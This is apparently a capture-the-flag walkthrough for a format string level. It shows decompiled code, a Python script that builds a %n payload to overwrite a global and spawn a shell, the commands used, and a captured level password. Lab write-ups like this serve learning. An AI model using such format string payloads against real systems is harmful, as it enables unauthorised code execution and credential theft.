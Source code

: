# Level 03 Walkthrough

## Binary analysis

The binary is vulnerable to a format string attack. The global variable `m` (address: 0x0804988c) must be set to 0x40 to trigger the call to `system("/bin/sh")`.

Relevant code:
```
080484c7        char buffer[0x208]
080484c7        fgets(buf: &buffer, n: 0x200, fp: stdin)
080484d5        printf(format: &buffer)
080484da        uint32_t m_1 = m
080484e2        if (m_1 != 0x40)
08048519            return m_1
08048507        fwrite(buf: "Wait what?!\n", size: 1, count: 0xc, fp: stdout)
08048513        return system(line: "/bin/sh")
```

## Exploitation

We use a format string payload to write 0x40 into the global variable `m`.

Python script to generate the payload:
```python
import struct
m_addr = 0x0804988c
offset = 4
payload = struct.pack("<I", m_addr)
payload += b"%60x"
payload += f"%{offset}$n".encode('ascii')
with open('payload.txt', 'wb') as f:
    f.write(payload)
```

## Commands used

```
cat /tmp/payload.txt - | ./level3
ls
cat /home/user/level4/.pass
```

## Result

After running the exploit, we get a shell as level4 and can read the password:

```
cat /home/user/level4/.pass
b209ea91ad69ef36f2cf0fcbbc24c739fd10464cf545b20bea8572ebdc3c36fa
```

Copy the password for the next level. 